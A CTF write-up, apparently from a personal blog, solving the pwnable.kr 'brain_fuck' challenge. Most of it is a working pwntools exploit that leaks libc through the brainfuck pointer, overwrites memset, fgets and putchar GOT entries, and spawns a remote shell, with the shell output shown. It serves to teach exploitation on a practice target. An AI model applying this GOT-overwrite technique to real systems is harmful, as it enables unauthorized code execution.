 ```yaml
---
title: pwnable brain_fuck
date: 2017-04-22 09:55:29
tags:
- got overwrite
categories:
- pwnable.kr
---
```


## Exploit
这题比较简单，蛋疼的是我没有开始发送一个'.'让putchar执行一次，虽然不发送也是能成功，但是在远程主机上总接受不到4个字节的数据(在本机可以，不知道为什么......)。
函数do_brainfuck几乎可以读改任何地址(权限范围内)，然后又输出了地址内容....关键一点是怎么执行system函，
其实仔细看一下也不难。
```c
memset(&v6, 0, 0x400u);
fgets(&v6, 1024, stdin);
```
<!-- more -->
这里是不是故意的啊....把memset@got覆盖为gets(attention!, not fgets)的地址，然后把fgets@got覆盖为system的地址，然后发送个'/bin/sh'。还有要顺便把putchar@got覆盖为main函数地址，因为程序必须得再次执行到memset和fgets。

## Script
```python
from pwn import *

main = 0x08048671
puts_got = 0x0804A018
memset_got = 0x0804A02C  #changing as fgets's address
fgets_got = 0x0804A010   #changing as system's address
putchar_got = 0x0804A030  #leak 
buf = 0x0804A0A0

debug = 0
if debug:
	p = process('./bf')
	libc = ELF('/lib/i386-linux-gnu/libc.so.6')
else:
	p = remote('pwnable.kr', 9001)
	libc = ELF('bf_libc.so')

print (buf - putchar_got)
payload = 112 * '<'   #putchar
payload += '..>.>.>.' #putchar_got + 3
payload += '<<<' + ',>,>,>,' #putchar_got + 3
payload += '<<<<<<<' #memset_got
payload += ',>,>,>,' #memset_got + 3
payload += '<<<' + '<' * (memset_got - fgets_got)
payload += ',>,>,>,'  #fgets_got+ 3
payload += '.'

#print payload

#print "[*]sending payload...."
#gdb.attach(p)
p.recvuntil("type some brainfuck instructions except [ ]\n")
p.sendline(payload)

'''calculating some address'''
p.recv(1)
r = p.recv(4)
#print len(r)
#assert len(r) == 4
putchar_addr = u32(r)
putchar_addr = putchar_addr
print "putchar_addr: " + hex(putchar_addr)
libc_addr = putchar_addr - libc.symbols['putchar']
print "libc_addr: " + hex(libc_addr)
gets_addr = libc_addr + libc.symbols['gets']
print "gets_addr: " + hex(gets_addr)
system_addr = libc_addr + libc.symbols['system']
print "system_addr: " +  hex(system_addr)

p.send(p32(main))#overwrite putchar_got
p.send(p32(gets_addr))#overwrite memset_got
p.send(p32(system_addr))#overwrite fgets_got

#gdb.attach(p)
p.recvuntil("type some brainfuck instructions except [ ]\n")
p.sendline('/bin/sh\x00')

p.interactive()
```
OK, we can get a shell by excuting the script.
```shell
w0lfzhang@w0lfzhang666:~/Desktop/pwnable$ python bf.py 
[+] Opening connection to pwnable.kr on port 9001: Done
[*] '/home/w0lfzhang/Desktop/pwnable/bf_libc.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*]sending payload....
putchar_addr: 0xf765ec80
libc_addr: 0xf75fe000
gets_addr: 0xf765c770
system_addr: 0xf7638920
[*] Switching to interactive mode
$ id
uid=1035(brainfuck) gid=1035(brainfuck) groups=1035(brainfuck)
$  
```
